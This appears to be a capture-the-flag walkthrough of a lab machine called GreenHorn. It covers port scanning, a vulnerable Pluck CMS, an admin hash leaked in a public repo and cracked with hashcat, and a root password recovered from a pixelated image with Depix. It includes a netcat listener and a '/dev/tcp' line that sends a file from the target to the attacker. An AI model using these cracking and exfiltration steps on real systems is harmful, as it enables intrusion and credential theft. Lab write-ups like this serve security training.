 # GreenHorn
![](Images/Card.png)

__Machine IP__: 10.10.11.25

__DATE__ : 12/12/2024

__MODE__ : Guided

# Machine Info
GreenHorn is an easy difficulty machine that takes advantage of an exploit in Pluck to achieve Remote Code Execution and then demonstrates the dangers of pixelated credentials. The machine also showcases that we must be careful when sharing open-source configurations to ensure that we do not reveal files containing passwords or other information that should be kept confidential. 

# NMAP
```bash
nmap -v -F 10.10.11.25 -oA f_nmap                                                                                                                                                                                                                                                                                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 00:18 EST                                                                                                                                                                                                                                                         
Initiating Ping Scan at 00:18                                                                                                                                                                                                                                                                                              
Scanning 10.10.11.25 [4 ports]                                                                                                                                                                                                                                                                                             
Completed Ping Scan at 00:18, 0.08s elapsed (1 total hosts)                                                                                                                                                                                                                                                                
Initiating SYN Stealth Scan at 00:18                                                                                                                                                                                                                                                                                       
Scanning greenhorn.htb (10.10.11.25) [100 ports]                                                                                                                                                                                                                                                                           
Discovered open port 22/tcp on 10.10.11.25                                                                                                                                                                                                                                                                                 
Discovered open port 80/tcp on 10.10.11.25                                                                                                                                                                                                                                                                                 
Discovered open port 3000/tcp on 10.10.11.25                                                                                                                                                                                                                                                                               
Completed SYN Stealth Scan at 00:18, 0.23s elapsed (100 total ports)                                                                                                                                                                                                                                                       
Nmap scan report for greenhorn.htb (10.10.11.25)                                                                                                                                                                                                                                                                           
Host is up (0.045s latency).                                                                                                                                                                                                                                                                                               
Not shown: 97 closed tcp ports (reset)                                                                                                                                                                                                                                                                                     
PORT     STATE SERVICE                                                                                                                                                                                                                                                                                                     
22/tcp   open  ssh                                                                                                                                                                                                                                                                                                         
80/tcp   open  http                                                                                                                                                                                                                                                                                                        
3000/tcp open  ppp                                                                                                                                                                                                                                                                                                         
                                                                                                                                                                                                                                                                                                                           
Read data files from: /usr/share/nmap                                                                                                                                                                                                                                                                                      
Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds                                                                                                                                                                                                                                                                
           Raw packets sent: 104 (4.552KB) | Rcvd: 101 (4.040KB) 
```

## Information
### Port 80
Port 80 we find CMS is pluck version 4.7.18 Which is vulnerable to CVE-2024-9405 (Local File Inclusion unauthenticated)

However for this we would need to log in as admin

### Port 3000
port 3000 we find code for the website

### Information Gathering

We find a hash for the admin password

```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

# Password cracking

```bash
hashcat -m 1700 d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163 --wordlist /usr/share/wordlists/rockyou.txt
```

Password = iloveyou1

# Reverse shell

[PoC](https://www.youtube.com/watch?v=GpL_rz8jgro)

find user.txt and a pdf under Junior user
```bash
-su junior
```
password iloveyou1


## Depixel PDF
### file transfer
my shell
```bash
nc -lnvp 9001 > openvas.pdf
```

rev shell

```bash
cat openvas.pdf > /dev/tcp/$IP/9001
```

openvas.pdf contains pixled password png of root user, saved the png as password.png

```bash
open password.png
```

![](Images/password.png)

```bash
python3 depix.py -p password.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o res.png
```

```bash
open res.png
```

![](Images/res.png)


Rooted



